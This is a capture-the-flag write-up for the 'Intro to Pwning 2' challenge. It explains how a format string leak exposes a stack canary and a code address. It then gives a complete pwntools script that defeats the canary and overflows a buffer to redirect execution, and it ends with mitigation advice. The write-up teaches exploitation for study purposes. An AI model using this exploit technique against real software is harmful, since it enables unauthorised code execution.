

# Intro to Pwning 2

## Solution

The source code of this challenge looks very similar to that of the previous challenge, it only verifies now at the beginning that we solved the previous challenge
by checking the flag. The functions `welcome`, `AAAAAAAA` and `WINgardium_leviosa` are the same.
<br/>
```
[*] '/home/layton/Desktop/cscg/Intro-to-Pwning-2/pwn2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
We notice that in contrast to the Intro to Pwning 1 challenge, a stack canary was added as a new security measure. After watching [this video of LiveOverflow](https://www.youtube.com/watch?v=4HxUmbOcN6Y),
it was pretty clear to me that we have to leak the stack canary and place it between the padding and the payload, so that is the last value on the stack and effectively doesn't change.
Using the same techniques as in the previous writeup, I calculated the offset to the `WINgardium_leviosa` function and bypass the `strcmp` check.
<br/> <br/>
But how do figure out the stack canary value? We can look at the leaked values from the string format vulnerability and look for values ending with `00`. The stack canary usually ends with `00` and if there is
a value on the same index constantly ending with `00`, then that's probably our stack canary value:
<br/> <br/>

<br/> <br/>
Putting everything together:
```python
#!/usr/bin/env python3

from pwn import *

format_string = "|".join(["%p" for _ in range(65)])

r = remote("hax1.allesctf.net", 9101)

r.sendline(b"CSCG{NOW_PRACTICE_MORE}")

r.sendline(format_string)
leaks = r.recvuntil("enter your magic spell:").decode("utf-8").split("|")

main = int(leaks[43], 16)
canary = int(leaks[38], 16)

log.info(f"main: {hex(main)}")
log.info(f"canary cookie: {hex(canary)}")

padding = b"A" * 251
win = main - 0x24c
ret = win + 0x36

log.info(f"return from WINgardium_leviosa: {hex(ret)}")
log.info(f"WINgardium_leviosa: {hex(win)}")

r.sendline(b"Expelliarmus\x00" + padding + p64(canary) + b"B"*8 + p64(ret) + p64(win))

r.interactive()
```

Flag: `CSCG{NOW_GET_VOLDEMORT}`


## Mitigation

Mitigate the format string vulnerability by replacing `printf(read_buf);` with `printf("%s", read_buf);"` and the buffer overflow by using a safe alternative to `gets` such as
`fgets` that only reads as much characters as specified and set it to something smaller than the buffer size.
